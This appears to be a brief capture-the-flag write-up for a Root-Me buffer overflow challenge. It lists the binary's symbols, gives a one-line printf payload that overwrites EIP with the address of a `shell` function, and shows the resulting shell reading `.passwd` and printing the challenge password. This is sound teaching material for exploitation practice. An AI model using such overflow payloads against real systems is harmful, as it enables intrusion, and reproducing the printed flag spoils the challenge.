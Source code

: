 ```
app-systeme-ch15@challenge02:/tmp$ nm ~/ch15
...
08048584 T main
         U puts@@GLIBC_2.0
080484a0 t register_tm_clones
         U setreuid@@GLIBC_2.0
08048516 T shell
08048400 T _start
         U stdin@@GLIBC_2.0
08048559 T sup
         U system@@GLIBC_2.0
0804a02c D __TMC_END__
080485de T __x86.get_pc_thunk.ax
08048450 T __x86.get_pc_thunk.bx
app-systeme-ch15@challenge02:/tmp$ nm ~/ch15
```

We need to overflow *buffer* and overwrite EIP with the adress of shell (*0x08048516*).

```
app-systeme-ch15@challenge02:~$ (printf "0123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789AAAABBBBCCCCDDDDEEEEFFFFGGGG\x16\x85\x04\x08IIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR" && cat -) | ./ch15
cat .passwd
B33r1sSoG0oD4y0urBr4iN
```

Let's not forget it's not an interractive shell so we add `&& cat -`.

--------------------------------------------------------------------------------
### Resources
[Stack, bugs, exploitation avancée - École polytechnique de Lausanne](http://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/FR%20-%20Stack%20Bug%20-%20Exploitation%20avancee%20de%20buffer%20overflow.pdf)